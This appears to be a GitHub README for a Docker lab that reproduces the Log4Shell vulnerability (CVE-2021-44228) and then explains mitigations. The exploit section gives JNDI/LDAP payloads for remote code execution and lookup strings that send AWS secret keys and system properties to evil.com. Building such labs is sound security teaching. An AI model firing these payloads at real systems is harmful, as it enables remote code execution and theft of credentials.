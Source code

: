 # Log4Shell docker lab for CVE-2021-44228

## The components
This docker lab makes use of three components, being:
- The vulnerable spring-boot application
- An HTTP server that hosts **.class** files used for remote code execution
- An LDAP referral server which redirects specific LDAP queries to the HTTP server

## Docker lab setup
### 1. Docker network
```bash
docker network create log4shell
```

### 2. Building the Docker images
```bash
$ docker build -t log4shell-vulnapp vulnapp
$ docker build -t log4shell-httpserver httpserver
$ docker build -t log4shell-marshalsec marshalsec
```

### 3. Running the containers
**Important note:** If you are using Windows PowerShell, replace `$(pwd)` with `${pwd}`.

```bash
$ docker run -d --name log4shell-vulnapp --network="log4shell" -p 8080:8080 log4shell-vulnapp
$ docker run -d --name log4shell-httpserver --network="log4shell" -p 3223:3223 -v $(pwd)/httpserver:/httpserver log4shell-httpserver
$ docker run -d --name log4shell-marshalsec --network="log4shell" -p 1389:1389 log4shell-marshalsec "http://<HostIp>:<Port>/#<RCEObjectName>"
```

## Exploit
Open up the vulnerable application, input some false test credentials, and open up the
logs of the **log4shell-vulnapp** container.
It can be seen that the application is logging unsuccessful login attempts (e.g., *Incorrect login attempt for username 'test'*). From this small experiment, it is established that we have control over some part of the logged string (i.e., the username).

We can pass a payload like the following to remotely execute code:
```bash
${jndi:ldap://<HostIp>:1389/<RCEObjectName>}
```
Remote code execution can be done in any java version; however, machines with java versions older than the following list [[1]](#1):
- 6u211
- 7u201
- 8u191
- 11.0.1

This is due to the fact that later versions set the JVM system property `com.sun.jndi.ldap.object.trustURLCodebase` to `false` by default, which disables JNDI loading of classes from arbitrary URL code bases. **However, relying only on a new Java version as protection against this vulnerability is risky**, as the vulnerability may still be exploited on machines that contain certain "gadget" classes in the classpath of the vulnerable application and DNS queries can be used to obtain information such as environment variables.

There are several lookup substitutions that reveal sensitive information from the victim machine. Most prominently, using a payload similar to [[2](#2), [3](#3)]:
```bash
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.evil.com/foo}
${jndi:ldap://${sys:user.name}.evil.com/foo}
${jndi:ldap://${main:x}.evil.com/foo}
${jndi:ldap://${spring:supersecretkey}.evil.com/foo}
```
**Note:** The spring lookup attack string requires **log4j-spring-cloud-config-client** be included in the application. [[2]](#2)

## Mitigation
The best way to mitigate this serious vulnerability is to upgrade log4j2 to a version **>= 2.17.0**. However, it is possible to completely mitigate the issue without upgrading using two different methods. It is strongly recommended to vendors that cannot upgrade to a newer Log4j2 version **to use both mitigation methods** specified below [[1]](#1).

### Method 1: For log4j 2.10.0 or later - Disable lookups
Disabling lookups can be done (globally) by setting the environment variable **LOG4J_FORMAT_MSG_NO_LOOKUPS** to true by editing the **/etc/environment** file and adding: `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` [[1]](#1)

Alternatively, lookups can be disabled for a specific invocation of the JVM by adding the following command-line flag when running the vulnerable Java application: `‐Dlog4j2.formatMsgNoLookups=True` [[1]](#1)

### Method 2: For log4j older than 2.10.0 - Removing the vulnerable class
When using a log4j version older than 2.10.0, it is possible to remove the **JndiLookup** class from any Java applications.

## References
<a id="1">[1]</a> Menashe, S., (2021). All About Log4Shell 0-Day Vulnerability - CVE-2021-44228. [online] JFrog. Available at: <https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know> [Accessed 24 December 2021].

<a id="2">[2]</a> Goers, R., (2021). Log4j – Log4j 2 Lookups. [online] logging.apache.org. Available at: <https://logging.apache.org/log4j/2.x/manual/lookups.html> [Accessed 24 December 2021].

<a id="3">[3]</a> Oracle. (2021). System Properties. [online] Available at: <https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html> [Accessed 24 December 2021].
